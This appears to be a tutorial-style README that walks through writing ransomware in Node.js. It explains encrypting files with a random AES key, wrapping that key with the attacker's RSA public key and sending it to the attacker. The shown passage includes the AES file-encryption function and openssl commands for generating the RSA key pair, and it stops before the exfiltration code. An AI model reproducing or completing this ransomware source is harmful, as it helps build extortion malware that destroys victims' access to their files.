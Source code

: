 Ransomware generates random AES key, and then performs fast encrypting of each approached file. In the meantime it uses attacker's public key to encrypt AES key, and sends it to attacker, so tracking back network traffic to find decrypting key is **meaningless**. Note: I deliberately ignore the fact, that most of the ransomwares don't care about decrypting drive, so they probably don't even bother sending decrypting key anywhere.

## Node.js ransomware

Let's use RSA and AES encryption to encrypt given file, and then send decryption key to given host.

### Required libraries

All of the used libraries are part of newest Node.js versions.

- `crypto`
- `fs`
- `https`

### Encryption

#### AES encryption

Simple AES encryption will be performed by generating 256-bit (32-byte) length key, and using it to encrypt given message. The function then will return message and encrypting key.

```js
const crypto = require('crypto');

const AES_ALGORITHM = 'aes-256-ctr';

/**
 * Function encrypts given input buffer using random AES-256 bit key.
 * Returns key buffer and encrypted message buffer
 *
 * @param {Buffer} message
 */
function aesEncrypt (message) {
    const key = crypto.randomBytes(256 / 8);
    const aes = crypto.createCipher(AES_ALGORITHM, key);
    const encryptedBuffer = aes.update(message);
    aes.final();

    return { message: encryptedBuffer, key }
}
```

#### RSA encryption

To encrypt file with RSA one needs public and private key. Those can be generated using `openssl` application (in OSX or GNU/Linux-likes):

```sh
$ openssl genrsa -out private.pem 2048
$ openssl rsa -in private.pem -outform PEM -pubout -out public.pem
```
